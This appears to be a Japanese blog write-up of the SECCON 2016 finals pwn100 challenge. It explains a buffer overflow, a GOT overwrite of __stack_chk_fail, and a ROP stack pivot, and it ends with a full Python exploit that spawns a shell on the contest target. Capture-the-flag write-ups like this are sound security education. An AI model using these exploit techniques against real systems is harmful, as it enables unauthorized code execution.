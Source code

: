 ```yaml
---
layout: post
title: SECCON 2016 FINALS writeup
---
```


elfでSECCON決勝に参加していました.
結果は23/24でしんどかったです.

pwn100しか解けなかったけどwriteup.

![](https://tsunpoko.github.io/images/seccon2016finals_enquete.png)

2回の入力がある.
1回目の入力でBOFがあり,

{% highlight asm %}
 80485ed:	e8 40 00 00 00       	call   8048632 <getaline>
 80485f2:	8b 45 08             	mov    eax,DWORD PTR [ebp+0x8]
 80485f5:	89 44 24 0c          	mov    DWORD PTR [esp+0xc],eax
 80485f9:	8d 45 b4             	lea    eax,[ebp-0x4c]
 80485fc:	89 44 24 08          	mov    DWORD PTR [esp+0x8],eax
 8048600:	c7 44 24 04 bb 87 04 	mov    DWORD PTR [esp+0x4],0x80487bb
 8048607:	08 
 8048608:	c7 04 24 01 00 00 00 	mov    DWORD PTR [esp],0x1
 804860f:	e8 bc fd ff ff       	call   80483d0 <dprintf@plt>
{% endhighlight %}

{% highlight shell %}
gdb-peda$ x/40xw 0xffffd3cc
0xffffd3cc:	0x41414141	0x00000000	0x00000000	0xffffd498
0xffffd3dc:	0xf7e41b74	0xf7fb93cc	0xffffd3fc	0x00000000
0xffffd3ec:	0xf7fb9000	0x00000000	0xf7fb9000	0x00000000
0xffffd3fc:	0x0622705a	0xffffd498	0xf7ff04c0	0xf7fb9000
0xffffd40c:	0xdf866000	0x00000000	0xf7e42016	0xffffd498
0xffffd41c:	0x0804859a	0x08048745	0xffffd44c	0xffffd44
{% endhighlight %}


{% highlight c %}
dprintf("Hi, %s\n%s\n>>", 0xffffd3cc, 0x08048745);
                         [user input]
{% endhighlight %}

getaline()直後に*(ebp+0x8)をeaxに入れて, それをdprintfの第3引数に指定しているのでここで任意のアドレスが読めます.

この場合*(ebp+0x8)は0xffffd420 -> 0x08048745です.

0xffffd420 - 0xffffd3cc = 84

```
 8048614:	8b 45 0c             	mov    eax,DWORD PTR [ebp+0xc]
 8048617:	89 04 24             	mov    DWORD PTR [esp],eax
 804861a:	e8 13 00 00 00       	call   8048632 <getaline>
```
*(ebp+0xc)を引数としてgetaline()を呼んでいるので, ここを任意のアドレスにすればそこに書き込みが出来そうです.

攻撃の流れとして, 3ステージに分かれていて

[stage1]
任意のアドレスが読めるのでgotの値を呼んでinformation leakします.
ここで必ず__stack_chk_fail()に引っかかるので, __stack_chk_fail@gotをmainに向けます.

[stage2]
任意のアドレスが読めますが, もうlibcはleakしたので適当で良いです.
書き込み先をbssにして, rop chainを仕込みます.
__stack_chk_fail@gotはまだmainなので再度ret2vuln.

[stage3]
読むアドレスは適当です.
__stack_chk_fail@gotにleave; ret;のrop gadgetを書き込みます.
この際にebpには, bss - 4のアドレスを積んでおきstack pivotでespをrop chainが積まれているbss領域に向けます.
__stack_chk_fail()に引っかかるので, rop発動で終了です.


以下exploit

{% highlight python %}
from No___Op import *

if len(sys.argv) > 1:
    target = '10.100.6.1:28353'
    offset = {
        'rand': 0x0034010,
        '__libc_start_main': 0x19a00,
        'system': 0x40310,
        '/bin/sh': 0x16084c, # str
    }


else:
    target = 'localhost:4444'
    offset = {
        'rand': 0x34010,
        '__libc_start_main': 0x19a00,
        'system': 0x40310,
        '/bin/sh': 0x16084c, # str
    }

c =  Pwning( target )

got_chkfail = 0x804a018
addr_bss = 0x0804a034 + 0x800
addr_main = 0x0804852d
got_rand = 0x804a028
leave_ret = 0x80485c0

########stage1
pay1  = 'a' * 84
pay1 += p32(got_rand)
pay1 += p32(got_chkfail)

pay2 = p32(addr_main)

c.sendall(pay1)
c.sendall(pay2)

info('stage1')

c.read_until('a' * 84)

c.recv(9)

libc_rand = u32(c.recv(4))

libc_base = libc_rand - offset['rand']
libc_system = libc_base + offset['system']
libc_binsh = libc_base + offset['/bin/sh']

succ(hex(libc_base))
succ(hex(libc_system))
succ(hex(libc_binsh))

########stage2

pay1  = 'b' * 84
pay1 += p32(libc_binsh)
pay1 += p32(addr_bss)

pay2  = ''
pay2 += p32(libc_system)
pay2 += 'kasu'
pay2 += p32(libc_binsh)
pay2 += 'c' * (64 - len(pay2))
raw_input()

c.sendall(pay1)
c.sendall(pay2)

info('stage2')


########stage3

pay1  = 'd' * 76
pay1 += p32(addr_bss - 4) #ebp
pay1 += p32(leave_ret) #eip
pay1 += p32(libc_binsh)
pay1 += p32(got_chkfail)

pay2  = p32(leave_ret)
pay2 += 'BBBB'
raw_input()

c.sendall(pay1)
c.sendall(pay2)

info('stage3')

c.shell()
{% endhighlight %}
